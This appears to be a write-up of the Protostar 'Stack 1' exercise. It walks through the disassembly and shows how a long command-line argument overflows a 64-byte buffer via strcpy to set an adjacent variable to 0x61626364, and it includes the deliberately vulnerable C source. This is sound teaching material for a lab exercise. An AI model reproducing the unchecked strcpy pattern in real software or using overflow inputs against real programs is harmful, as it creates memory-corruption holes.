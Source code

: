 # Stack 1

## Problem

Here we try to have a look at the main program before starting and we see on `main+9` that there is some comparison of a variable with value $1$. If the values are equal and err is raised and it is likely the program terminates.We see that in `main+35` it seems like there is a variable assigned to $0$ and eventually used for cmp in `main+71`. Prior, we see that there is a `strcpy` call which we could potentially use as an exploit.

In `main+59` we see that the pointer to the stack is copied to esp for the function call to copy what is in the argument to the stack. From `main+55` and `main+35` we can guess that there variable being tested is below the stack and the stack should be 64bytes.

```gdb
Dump of assembler code for function main:
0x08048464 <main+0>:    push   ebp
0x08048465 <main+1>:    mov    ebp,esp
0x08048467 <main+3>:    and    esp,0xfffffff0
0x0804846a <main+6>:    sub    esp,0x60
0x0804846d <main+9>:    cmp    DWORD PTR [ebp+0x8],0x1
0x08048471 <main+13>:   jne    0x8048487 <main+35>
0x08048473 <main+15>:   mov    DWORD PTR [esp+0x4],0x80485a0
0x0804847b <main+23>:   mov    DWORD PTR [esp],0x1
0x08048482 <main+30>:   call   0x8048388 <errx@plt>
0x08048487 <main+35>:   mov    DWORD PTR [esp+0x5c],0x0
0x0804848f <main+43>:   mov    eax,DWORD PTR [ebp+0xc]
0x08048492 <main+46>:   add    eax,0x4
0x08048495 <main+49>:   mov    eax,DWORD PTR [eax]
0x08048497 <main+51>:   mov    DWORD PTR [esp+0x4],eax
0x0804849b <main+55>:   lea    eax,[esp+0x1c]
0x0804849f <main+59>:   mov    DWORD PTR [esp],eax
0x080484a2 <main+62>:   call   0x8048368 <strcpy@plt>
0x080484a7 <main+67>:   mov    eax,DWORD PTR [esp+0x5c]
0x080484ab <main+71>:   cmp    eax,0x61626364
0x080484b0 <main+76>:   jne    0x80484c0 <main+92>
0x080484b2 <main+78>:   mov    DWORD PTR [esp],0x80485bc
0x080484b9 <main+85>:   call   0x8048398 <puts@plt>
0x080484be <main+90>:   jmp    0x80484d5 <main+113>
0x080484c0 <main+92>:   mov    edx,DWORD PTR [esp+0x5c]
0x080484c4 <main+96>:   mov    eax,0x80485f3
0x080484c9 <main+101>:  mov    DWORD PTR [esp+0x4],edx
0x080484cd <main+105>:  mov    DWORD PTR [esp],eax
0x080484d0 <main+108>:  call   0x8048378 <printf@plt>
0x080484d5 <main+113>:  leave
0x080484d6 <main+114>:  ret
End of assembler dump.
```

## Idea and Attack process

We first run the program with a random guess to find out the output of the program.

```shell
./stack1 123
>>>Try again, you got 0x00000000
```

As expected there is a variable assigned to 0 which we must modify and it is likely to be below the stack. Let's try to change it with 64char and 4char after.

```shell
./stack1 12345678901234567890123456789012345678901234567890123456789012341234
>>>Try again, you got 0x34333231
```

Here we see that the modification to the variable is in the reversed order of the argument we pass in. Let's try to now input the cmp value. We reference the ASCII table to obtain the values needed.

```shell
./stack1 1234567890123456789012345678901234567890123456789012345678901234dcba
>>>you have correctly got the variable to the right value
```

## Source code

```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv)
{
  volatile int modified;
  char buffer[64];

  if(argc == 1) {
      errx(1, "please specify an argument\n");
  }

  modified = 0;
  strcpy(buffer, argv[1]);

  if(modified == 0x61626364) {
      printf("you have correctly got the variable to the right value\n");
  } else {
      printf("Try again, you got 0x%08x\n", modified);
  }
}
```